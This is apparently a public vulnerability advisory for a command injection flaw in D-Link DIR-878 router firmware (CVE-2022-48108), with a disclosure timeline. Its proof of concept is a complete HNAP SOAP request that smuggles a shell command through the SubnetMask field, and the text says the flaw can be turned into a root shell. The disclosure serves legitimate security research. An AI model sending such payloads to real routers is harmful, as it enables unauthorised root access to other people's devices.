



# D-link DIR_878_FW1.30B08.bin Command injection vulnerability

A command injection vulnerability in the component /SetNetworkSettings/SubnetMask of D-Link DIR878 DIR_878_FW1.30B08 allows attackers to escalate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## 1. Affected version

Figure 1 shows the latest firmware Ba of the router


## Vulnerability details



The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7



Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability


## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR_878_FW1.30B08.bin
2. Attack with the following POC attacks，then the router system will reboot.

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH:
Content-Length: 633
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

## Disclosure

- Dec 23, 2022:Public disclosure

- Jan 28, 2023:Assign CVE number [CVE-2022-48108](https://github.com/advisories/GHSA-4g2v-j3c9-cqx4)

